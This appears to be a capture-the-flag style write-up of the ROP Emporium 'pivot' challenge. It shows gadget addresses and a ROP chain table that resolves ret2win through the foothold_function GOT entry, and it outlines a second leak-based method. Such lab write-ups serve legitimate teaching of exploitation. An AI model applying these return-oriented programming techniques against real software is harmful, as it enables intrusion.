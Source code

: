 
exit and free functions are in the same state.
puts is resolved in the libc library : 0x7f64f3a96820

we need to call one time foothold_function (0x601040) first.

The ret2win() function in the libpivot shared object isn't imported, but that doesn't mean you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function() isn't called during normal program flow, you'll have to call it first to update its .got.plt entry.


#### Method 1 : call rax

With this method the steps are :
- call foothold
- read the addres from got to reg
- adjuste address to ret2win addres in reg
- call reg

Useful gadgets

- 0x04009bb : pop rax ; ret
- 0x04009c0 : mov rax, qword ptr [rax] ; ret
- 0x0400808 : pop rbp; ret
- 0x04009c4 : add rax, rbp ; ret
- 0x04006b0 : call rax

The ROP chaine :

|address   | gadget | comment |
|----------|--------|------|
| 0x601040  | foothold_function@plt | load foothold_function@got |
| 0x04009bb | pop rax ; ret |
| 0x601040  | foothold_function@got | for pop rax
| 0x04009c0 | mov rax, qword ptr [rax] ; ret | read the got entry
| 0x0400808 | pop rbp; ret | get the offset to add
|    0x117 | diff between foothold_function and ret2win |
| 0x04009c4 | add rax, rbp ; ret | rax <= rax+0x117
| 0x04006b0 | call rax | call ret2win

#### Method 2 : get a leak and recall

The steps :
- pivot
- call foothold
- leak got entry with puts
- return to the begining of pwnme
- send a new first message without usage
- send a new short exploit ropchainve with
    - calculated ret2win address
